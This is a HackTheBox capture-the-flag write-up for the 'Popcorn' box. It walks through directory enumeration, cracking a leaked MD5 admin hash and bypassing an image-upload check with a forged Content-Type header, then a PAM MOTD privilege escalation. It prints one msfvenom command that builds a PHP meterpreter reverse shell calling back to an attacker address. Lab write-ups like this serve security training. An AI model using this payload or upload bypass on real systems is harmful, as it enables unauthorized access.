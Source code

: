 ```yaml
---
title: "HackTheBox Writeup: Popcorn"
date: 2019-08-23T02:36:15+02:00
tags:
  - hackthebox
  - ctf
  - writeup
showdate: true
toc: true
---
```


A medium difficulty Linux box, where pretty much all the difficulty comes from the road to user, getting root consists in a very straightforward local privilege escalation exploit, user access is achieved by uploading a PHP shell from an image upload page.

![img](/images/popcorn-writeup/1.png)

---

## Enumeration

Let's begin right away with an nmap scan to identify running services:

![img](/images/popcorn-writeup/2.png)

Only two open ports, one for SSH access and the other leads to a standard installation of Apache, or so it seems from the homepage at least:

![img](/images/popcorn-writeup/3.png)

We don't have anywhere else to look for content so we run a dirb scan to enumerate hidden files and folders within the web server, and of course, we find out there is quite the amount of content, it's just hidden from casual lookers:

![img](/images/popcorn-writeup/4.png)

The torrent folder seems to contain a whole portal to share torrents:

![img](/images/popcorn-writeup/5.png)

We can even create our own account but I'll save that function up for later, because dirb has also found a "database" directory within the files in /torrent, which contains the backup of a database in SQL format that we can read. The most interesting part is at the very end of the file:

![img](/images/popcorn-writeup/6.png)

According to the structure of the users table, we have found the hashed password of user Admin, which has admin privileges. The password is hashed though so we must obtain the plain text equivalent first, it looks like an MD5 hash, so with a bit of lucky we may find a match on CrackStation's huge database:

![img](/images/popcorn-writeup/7.png)

Found it! It's "admin12", so now we can log in on the website and see what functionalities it has to offer:

![img](/images/popcorn-writeup/8.png)

So the password has been changed since the last backup, running hydra against the login with a list common passwords doesn't seem to work either, making this a rabbiy hole. So let's go look for something more interesting, perhaps after creating our own personal account:

![img](/images/popcorn-writeup/9.png)

Every user has access to the Upload section, where we can upload torrents to share with other users. The web application makes sure we are only trying to upload torrents, in fact trying to upload any other kind of file causes an error:

![img](/images/popcorn-writeup/10.png)

So I'm just going to grab a random .torrent file, I went for a Kali Linux image torrent because there is already one in the homepage. Once uploaded we can see there is an "add screenshot" feature, which turns out to be much less secure than the torrent upload form.

---

## Exploitation: image upload bypass

Let's see if a meterpreter shell can be sent as a fake image:

```shell-session
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.67 LPORT=9090 -o baudy.php
```

![img](/images/popcorn-writeup/12.png)

Intercept the upload POST request with Burp and change the Content-Type header of the shell from Application/php into image/jpeg and that's enough to trick the application into uploading the file, without having to alterate the extension either:

![img](/images/popcorn-writeup/13.png)

![img](/images/popcorn-writeup/14.png)

The web server accepted it and uploaded the file without hesitation. Looking back to our old dirb scan we also found a folder for uploads, located in /torrent/upload:

![img](/images/popcorn-writeup/15.png)

Our shell has been renamed but is still there intact, so we can start a listener on our host and then start the shell by clicking on it:

![img](/images/popcorn-writeup/16.png)

We are in as www-data and we have access to /home/george, where we find our user flag. In this same home folder we have a .cache subfolder that contains a weird little file:

![img](/images/popcorn-writeup/17.png)

---

## Exploitation: PAM MOTD privilege escalation

Looking this up on Google immediately reveals a [local privilege escalation exploit](https://www.exploit-db.com/raw/14339) so we download it on our box and pass it on to Popcorn with a temporary HTTP server, I use PHP for this:

![img](/images/popcorn-writeup/18.png)

![img](/images/popcorn-writeup/19.png)


- Change directory to /tmp/ to have write permissions
- Download the exploit from our box
- Add execute permissions to the exploit
- Run
- Profit





















